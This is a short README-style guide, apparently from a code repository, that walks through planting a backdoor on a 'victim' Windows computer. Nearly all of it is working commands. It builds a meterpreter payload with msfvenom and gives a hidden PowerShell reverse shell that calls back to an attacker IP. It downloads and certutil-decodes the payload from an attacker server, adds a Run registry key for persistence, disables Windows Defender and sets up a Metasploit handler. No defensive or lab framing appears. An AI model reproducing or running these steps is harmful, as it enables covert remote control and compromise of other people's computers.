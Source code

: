 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=[your ip] lport=[your port]  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp [Your port]
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('[your ip]', [your port]);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` bash
mkdir c:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` bash
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString(http://example.com/file-encode.txt)
```
## Ddecode Base64

``` powershell
certutil -decode c:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
```
use exploit/multi/handler
```
- Set Payload
```
set payload windows/meterpreter/reverse_https
```
- Set Lhost
```
set lhost [your ip] 
```
- Set lport
```
set lport [your port]
```
- Run
```
run 
```
## Disable Windows Defender
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```
Unblock-File -Path c:\Users\[User Name]]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```
./decode.exe
```

